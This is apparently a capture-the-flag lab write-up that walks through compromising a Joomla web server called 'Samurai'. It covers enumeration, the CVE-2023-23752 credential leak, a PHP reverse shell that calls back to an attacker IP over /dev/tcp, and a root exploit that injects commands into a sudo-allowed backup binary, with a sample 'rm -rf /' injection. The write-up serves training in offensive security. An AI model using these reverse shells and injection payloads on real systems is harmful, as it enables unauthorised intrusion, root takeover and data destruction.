




# Samurai


## Objective

As part of a penetration test, your team identified an interesting web server. Your task is to enumerate the target, establish an initial foothold, and escalate privileges to root.

### Initial Access

You have been provisioned VPN access to the client environment. No initial credentials are provided.

## Enumeration

Document all enumeration don on the host to find vulnerable and attack paths

```jsx
nmap -Pn -sV -sC -p- --min-rate=200 10.1.133.11 -T4
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-24 10:41 EDT
Nmap scan report for 10.1.133.11
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 c3:5a:83:50:80:9a:61:37:05:b7:45:96:cb:ab:1d:1e (ECDSA)
|_  256 6b:15:12:60:1b:21:d1:bf:7e:b8:c0:e8:d7:7e:7b:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Samurai
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
```

### Port 80: Web Server

Running on port 80 is an Apache webserver.



### Directory Enumeration

```jsx
ffuf -u http://10.1.133.11/FUZZ -w /usr/share/wordlists/dirb/common.txt -fs 3185

/'___\  /'___\           /'___\
/\ \__/ /\ \__/  __  __  /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\   \ \_\  \ \____/  \ \_\
\/_/    \/_/   \/___/    \/_/

v2.1.0-dev
________________________________________________

:: Method           : GET
:: URL              : http://10.1.133.11/FUZZ
:: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
:: Filter           : Response size: 3185
________________________________________________

administrator           [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 23ms]
api                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 19ms]
assets                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 24ms]
cache                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 25ms]
components              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 28ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3642ms]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3644ms]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 21ms]
includes                [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 24ms]
language                [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 14ms]
layouts                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 35ms]
libraries               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 24ms]
media                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 23ms]
modules                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 26ms]
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 4653ms]
plugins                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 24ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 21ms]
templates               [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 25ms]
tmp                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 20ms]
```

### Admin Panel

Navigating to `/administrator` takes me to the `admin panel`.



### Joomscan

Also using `joomscan` you can also find more information about the above web server like:

- Joomla Version
- Admin finder page
- Core Joomla Vulnerability

```jsx
____  _____  _____  __  __  ___   ___    __    _  _
(_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
.-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
\____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
(1337.today)

--=[OWASP JoomScan
+---++---==[Version : 0.0.7
+---++---==[Update Date : [2018/09/23]
+---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
--=[Code name : Self Challenge
@OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.1.133.11 ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.5

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.1.133.11/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found

Your Report : reports/10.1.133.11/
```

Despite the `joomscan` saying it is not vulnerable. But on February 16, 2023, Joomla! published a security advisory for CVE-2023-23752. The advisory describes an “improper access check” affecting Joomla! 4.0.0 through 4.2.7. 

### CVE-2023-23752

```jsx
ruby exploit.rb http://10.1.133.11
Users
[769] Oda (Miyamoto) - oda@local.local - Super Users

Site info
Site name: Samurai
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: joomla425
DB password: Pa847word987@Joomla456
DB name: Dbjoomla
DB prefix: iemj4_
DB encryption 0
```

Using the above information I can now login to the `admin panel` using `Miyamoto` as username and `Pa847word987@Joomla456` as it’s password



```jsx
<?php
exec"/bin/bash -c "bash -c 'exec bash -i &>/dev/tcp/10.200.66.238/4444 <&1'");
?>
```

## Foothold

Research findings, data insights, and key considerations and document how you got a foothold on the vulnerable box

To start our reverse shell, we need to edit one of the PHP files and then save and run this template. We’ll edit error.php. Add the reverse shell code to the error.php file and start your netcat listener.

I will be using the `reverse shell` from Pentest Monkey

```jsx

  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.200.66.238';  // You have changed this
  $port = 4444;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  <<< SNIP FOR BREVITY >>>>

  ?> 
  
```



```jsx
enelope
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 10.211.55.51 • 10.200.66.238
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => streetcoder 10.1.133.11 Linux-x86_64 👤 www-data(33) 😍 Session ID <1>

[+] ⭐ Agent deployed via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/parrot/.penelope/sessions/streetcoder~10.1.133.11-Linux-x86_64/2026_06_24-12_47_01-919-www-data(33).log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@streetcoder:/$ whoami
www-data
```

## Privilege Escalation

Document how you were able to more laterally and gain a higher privilege

The `www-data` can access the `/opt/backup/DbMaria` with no password

```jsx
www-data@streetcoder:/$ sudo -l
Matching Defaults entries for www-data on streetcoder:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on streetcoder:
(root) NOPASSWD: /opt/backup/DbMaria
```

### Usage

What Database can I run with?

```jsx
www-data@streetcoder:/$ sudo /opt/backup/DbMaria
Usage: /opt/backup/DbMaria <database>

Usage: %s <database>
mariadb-dump --socket=/run/mysqld/mysqld.sock -u root %s > /tmp/backup.sql
```

I used the `Strings` command to dump strings from the DbMaria folder and I found the `/tmp/backup.sql`

```jsx
www-data@streetcoder:/$ strings /opt/backup/DbMaria
/lib64/ld-linux-x86-64.so.2
__cxa_finalize
__libc_start_main
system
setuid
snprintf
__stack_chk_fail
libc.so.6
GLIBC_2.2.5
GLIBC_2.4
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Usage: %s <database>
mariadb-dump --socket=/run/mysqld/mysqld.sock -u root %s > /tmp/backup.sql
:*3$"
GCC: (Ubuntu 11.4.0-1ubuntu1~22.04.3) 11.4.0
Scrt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
```

### **Command Injection** and **Insecure File Permissions**

Here is the breakdown of what's risky here and why:

### 1. Command Injection (via `%s`)

The most critical vulnerability is the use of `%s` as a placeholder for the database name. If this command is executed inside a script (like Python, PHP, or Bash) where the `%s` is replaced by user-controlled input, it is highly vulnerable to **Command Injection**.

- **How it works:** If an attacker can control the database name input, instead of typing `my_database`, they could input something like:
`test_db; rm -rf /;`
- **The Result:** The shell interprets the semicolon (`;`) as the end of the `mariadb-dump` command and immediately executes the attacker's malicious command with the privileges of whatever user is running that script (often `root`).

### 2. Insecure Temporary File Location (`/tmp`)

Writing the backup directly to `/tmp/backup.sql` introduces a couple of local vulnerabilities:

- **Information Disclosure:** By default, `/tmp` is world-readable on many Linux systems. Any local user or malicious process running on the same server could read `backup.sql` and steal your entire database contents while the backup is being generated or before it's moved.
- **Symlink Attack / Race Condition:** A malicious local user could pre-create a symbolic link at `/tmp/backup.sql` that points to a critical system file (like `/etc/passwd` or a configuration file). When your script runs as root, it might overwrite that critical system file, crashing the system or altering permissions.

### 3. Root Execution (Privilege Escalation Risk)

Running the dump as `-u root` via the local socket means the process has total administrative access to MariaDB. Combined with the command injection vulnerability above, an attacker doesn't just compromise the database—they potentially compromise the entire underlying operating system as the `root` user.

```jsx
sudo /opt/backup/DbMaria 'test_db; /bin/bash -p #

# We control the DB name
So I will use something like `test_db`

After that I will use /bin/bash -p to call the root shell without the use of a password
```

```jsx
www-data@streetcoder:/$ sudo /opt/backup/DbMaria 'test_db; /bin/bash -p #'
/*M!999999\- enable the sandbox mode */
-- MariaDB dump 10.19  Distrib 10.6.23-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: test
-- ------------------------------------------------------
-- Server version       10.6.23-MariaDB-0ubuntu0.22.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
mariadb-dump: Got error: 1049: "Unknown database 'test'" when selecting the database
root@streetcoder:/# ls root/
root.txt  snap
```

### User flag

```jsx
root@streetcoder:/# ls /var/www/
html  html.bak_2026-03-06_084923  user.txt
root@streetcoder:/# ls -l /var/www/user.txt
-rw-r----- 1 root www-data 23 Mar  6 09:36 /var/www/user.txt
root@streetcoder:/# cat /var/www/user.txt
flag{XXXXXXXXXXXXXXXXX}
```

### Root flag

```jsx
root@streetcoder:/# cat root/root.txt
flag{XXXXXXXXXXXXXXXXXX}
```

##   Resources used

Action items, timeline, and resource requirements

__**Come unto Him (Jesus), all ye that are troubled and heavy laden, He will give you rest!**__

